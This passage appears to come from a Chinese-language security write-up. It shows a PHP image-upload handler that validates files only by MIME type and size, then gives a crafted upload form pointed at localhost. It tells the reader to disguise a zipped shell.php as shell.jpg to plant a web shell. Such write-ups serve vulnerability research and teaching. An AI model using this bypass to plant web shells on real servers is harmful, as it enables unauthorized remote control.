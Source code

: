 ```plain
        break;
        case 'image/gif' :
            $extend = ".gif";
        break;
        case 'image/png' :
            $extend = ".png";
        break;
        case 'image/x-icon':
            $extend = ".ico";
        break;

    }
    if (empty( $extend )) {
        exit('{"code": "-1","msg":"上传的图片类型不支持"}');
    }
    if ($size > $maxsize) {
        exit('{"code": "-1","msg":"图片不能超过'.$maxsize/pow(1024,2).'M"}');
    }
    $img_name = IMG_NAME.$extend;
    //文件名
    $save_to = $dir.$img_name;
    $url = siteurl().'/'.SAVE_PATH.'upload/'.$img_name;
    if (move_uploaded_file ( $tmp_name, $dir . $img_name )) {
        echo('{"code": "200","msg":"上传成功","url":"'.$url.'"}');
        return  $dir . $img_name;
    }
}
```

```plain
if(empty($_POST["url"]) &&!empty($_FILES["file"])) {
    $filename = upload_img($_FILES["file"]);
```

构造文件上传页：

```plain
<form action="http://localhost/include/file.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <input type="submit" value="提交">
</form>
```

把 shell.php 压缩之后改名为 shell.jpg 然后上传。  
[![](assets/1709261880-d0bdc8a8be6ba05133ca7518c4f0217a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228170044-db43a1f2-d617-1.png)  
[![](assets/1709261880-33dba65467fc22c4c10f5f87fea436a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228170210-0e5fdd4e-d618-1.png)  